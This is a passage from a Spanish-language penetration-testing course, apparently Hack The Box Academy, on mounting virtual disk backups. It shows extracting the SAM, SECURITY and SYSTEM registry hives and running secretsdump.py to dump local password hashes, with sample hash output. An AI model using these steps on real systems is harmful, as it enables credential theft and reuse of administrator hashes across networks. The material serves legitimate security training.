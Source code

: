 En Windows, podemos hacer clic derecho en el archivo y elegir `Mount`, o usar la utilidad `Disk Management` para montar un archivo `.vhd` o `.vhdx`. Si lo preferimos, podemos usar el cmdlet de PowerShell [Mount-VHD](https://docs.microsoft.com/en-us/powershell/module/hyper-v/mount-vhd?view=windowsserver2019-ps). Independientemente del método, una vez que hacemos esto, el virtual hard disk aparecerá como una unidad con letra que luego podemos explorar.

![image](https://academy.hackthebox.com/storage/modules/67/mount.png)

Para un archivo `.vmdk`, podemos hacer clic derecho y elegir `Map Virtual Disk` desde el menú. A continuación, se nos pedirá que seleccionemos una letra de unidad. Si todo sale según lo planeado, podemos explorar los archivos y directorios del sistema operativo objetivo. Si esto falla, podemos usar VMWare Workstation `File --> Map Virtual Disks` para mapear el disco en nuestro sistema base. También podríamos agregar el archivo `.vmdk` a nuestra VM de ataque como un virtual hard drive adicional, y luego acceder a él como una unidad con letra. Incluso podemos usar `7-Zip` para extraer datos de un archivo `.vmdk`. Esta [guía](https://www.nakivo.com/blog/extract-content-vmdk-files-step-step-guide/) ilustra muchos métodos para acceder a los archivos en un archivo `.vmdk`.

### Retrieving Hashes using Secretsdump.py

¿Por qué nos interesa un virtual hard drive (especialmente Windows)? Si podemos localizar una copia de seguridad de una máquina en vivo, podemos acceder al directorio `C:\Windows\System32\Config` y descargar los registros `SAM`, `SECURITY` y `SYSTEM`. Luego, podemos usar una herramienta como [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/secretsdump.py) para extraer los password hashes para usuarios locales.

```r
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL

Impacket v0.9.23.dev1+20201209.133255.ac307704 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x35fb33959c691334c2e4297207eeeeba
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)

<SNIP>
```

Podríamos tener suerte y recuperar el local administrator password hash para el sistema objetivo o encontrar un old local administrator password hash que funcione en otros sistemas en el entorno (ambos casos me han sucedido en bastantes evaluaciones).